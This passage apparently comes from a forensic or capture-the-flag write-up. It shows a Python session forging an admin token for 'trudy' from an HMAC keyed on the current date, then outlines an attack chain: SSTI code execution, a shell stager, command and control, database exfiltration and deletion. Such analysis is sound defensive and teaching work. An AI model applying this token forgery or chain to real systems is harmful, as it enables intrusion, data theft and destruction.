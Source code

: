 So we've found a way to forge tokens by guessing the secret, we can actually test this out locally and generate a session for `trudy`.

```text
python3
Python 3.8.10 (default, Nov 22 2023, 10:22:35)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import datetime, hashlib, hmac
>>> def generate_session(username):
...     auth_secret = str(datetime.date.today()).encode('utf-8')
...     hmac_value = hmac.new(auth_secret, username.encode('utf-8'), hashlib.sha256).hexdigest()
...     return hmac_value
...
>>> generate_session("trudy")
'855eca12a65e353909c6b0acd88d22f9da2e8b8002657acf5efb96c383bf3dbe'
```

## Attack Chain

We've uncovered a complete attack chain through forensic and code review, it looks something like this:

1. Generate admin session for “trudy” with forged token
1. Send post request containing SSTI code exec payload
1. Payload contains a shell stager, downloads binary to ramdisk
1. Command & Control starts
1. Exfil our DB
1. Delete our DB to hide intrusion method


<img src="doc/final.jpg" width="70%">
